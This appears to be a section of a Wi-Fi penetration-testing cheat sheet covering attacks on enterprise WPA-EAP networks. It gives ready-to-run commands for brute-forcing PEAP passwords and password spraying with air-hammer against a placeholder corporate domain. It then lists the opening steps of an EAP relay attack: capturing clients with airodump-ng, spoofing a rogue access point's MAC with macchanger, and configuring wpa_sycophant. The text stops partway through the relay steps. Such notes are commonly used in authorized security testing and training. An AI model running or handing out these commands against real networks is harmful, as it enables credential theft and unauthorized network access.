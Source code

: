 #### Bruteforce user password in EAP (Extensible Authentication Protocol) - PEAP
```
cd  ~/tools/air-hammer
echo 'CONTOSO\test' > test.user
sudo ./air-hammer.py -i wlan3 -e wifi-corp -p /home/user/10-million-password-list-top-100000.txt -u test.user | grep -i valid
```
#### Password spray
```
cd  ~/tools/air-hammer
cat /home/user/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > /home/user/top-usernames-shortlist-contoso.txt
./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u /home/user/top-usernames-shortlist-contoso.txt
```

#### EAP Wifi relay attack 
0. Get the clients mac address associated to the wifi and channels (in case of multiple AP) of AP
```
sudo airodump-ng  --essid wifi-regional-tablets --band abg  wlan0mon -w /tmp/regional
```
1. Set the MAC for the rogue AP
```
sudo systemctl stop network-manager
sudo airmon-ng stop wlan1mon
sudo ip link set wlan1 down
sudo macchanger -m F0:9F:C3:00:00:00 wlan1
sudo ip link set wlan1 up
```
2. Configure the name of the rogue AP with `wpa_sycophant` and add it's MAC address as blacklist
```
echo '
network={
  ssid="wifi-regional-tablets"
  ## The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  ## Do not modify
  identity=""
  anonymous_identity=""
  password=""
  ## This initialises the variables for me.
  ## -------------
  eap=PEAP
  phase1="crypto_binding=0 peaplabel=0"
  phase2="auth=MSCHAPV2"
  ## Dont want to connect back to ourselves,
  ## so add your rogue BSSID here.
  bssid_blacklist=F0:9F:C3:00:00:00
}
' > ~/tools/wpa_sycophant/wpa_sycophant_example.conf
```
